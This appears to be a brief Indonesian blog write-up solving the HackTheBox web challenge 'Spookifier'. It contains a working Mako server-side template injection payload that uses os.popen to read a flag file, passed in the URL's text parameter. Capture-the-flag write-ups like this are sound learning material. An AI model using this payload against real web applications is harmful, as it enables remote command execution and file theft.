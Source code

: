 ```yaml
---
title: HackTheBox - Spookifier
date: 2023-12-29 18:34:00 +0700
categories:
  - HackTheBox
  - Challenges
tags:
  - web
  - very_easy
  - hackthebox
image:
  path: /assets/img/hackthebox/challenges/web/spookifier.png
  alt: Lame - HackTheBox
---
```


**Spookfier** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya. Oh iya, disini kita akan mempelajari tentang exploit, SSTI, dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pokoknya exploitnya [SSTI Mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

```bash
${self.module.runtime.util.os.popen("cat ../flag.txt").read()}
```

> tambahkan di belakang urlnya, habis text=
{: .prompt-info}